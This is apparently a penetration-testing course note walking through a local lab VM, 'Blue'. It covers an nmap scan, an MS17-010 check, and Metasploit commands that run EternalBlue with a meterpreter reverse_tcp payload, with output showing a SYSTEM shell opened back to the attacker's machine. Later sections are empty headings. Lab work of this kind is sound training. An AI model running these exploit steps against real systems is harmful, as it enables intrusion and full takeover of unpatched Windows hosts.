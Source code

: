 # New Capstone

## Introduction

Two other courses on Windows & Linux Privilege Escalation.

New capstone boxes are available here: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

## Set Up - Blue

- Import `Blue.ovf` in vmware, set the network settings to NAT, allow 4 GB to memory if you can.
- access as an admin to get the ip via `cmd` and `ipconfig`.
- on your kali, `ping 192.168.92.130` to check if you see it.

## Walkthrough - Blue

### Scanning

- scanning with `nmap -T4 -p- -A 192.168.92.130`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 08:32 EDT
Nmap scan report for 192.168.92.130
Host is up (0.00070s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:C8:FA:61 (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:c8:fa:61 (VMware)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-22T08:33:49-04:00
| smb2-time:
|   date: 2024-07-22T12:33:50
|_  start_date: 2024-07-22T18:09:06

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms 192.168.92.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.28 seconds
```

Notes

```
 Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1) + port 445 open: MS17-010 (EternalBlue) exploit
```

### Check for vulnerability

```
nmap --script smb-vuln-ms17-010 -p445 192.168.92.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 08:59 EDT
Nmap scan report for 192.168.92.130
Host is up (0.00060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:C8:FA:61 (VMware)

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

### Exploit

- Launch Metasploit: `msfconsole`
- Search for the MS17-010 Exploit: `search ms17-010`
- Select the Exploit: `use exploit/windows/smb/ms17_010_eternalblue`
- Set the Target IP: `set RHOSTS 192.168.92.130`
- Set the Payload: `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
- Run the Exploit: `exploit`

```
exploit

[*] Started reverse TCP handler on 192.168.92.128:4444
[*] 192.168.92.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.92.130:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.92.130:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.92.130:445 - The target is vulnerable.
[*] 192.168.92.130:445 - Connecting to target for exploitation.
[+] 192.168.92.130:445 - Connection established for exploitation.
[+] 192.168.92.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.92.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.92.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.92.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service
[*] 192.168.92.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1
[+] 192.168.92.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.92.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.92.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.92.130:445 - Starting non-paged pool grooming
[+] 192.168.92.130:445 - Sending SMBv2 buffers
[+] 192.168.92.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.92.130:445 - Sending final SMBv2 buffers.
[*] 192.168.92.130:445 - Sending last fragment of exploit packet!
[*] 192.168.92.130:445 - Receiving response from exploit packet
[+] 192.168.92.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.92.130:445 - Sending egg to corrupted connection.
[*] 192.168.92.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.92.130
[*] Meterpreter session 1 opened (192.168.92.128:4444 -> 192.168.92.130:49180) at 2024-07-22 09:03:05 -0400
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.92.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Results:

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege
```

## Set Up - Academy

## Walkthrough - Academy

## Walkthrough - Dev

## Walkthrough - Butler

## Walkthrough - Blackpearl
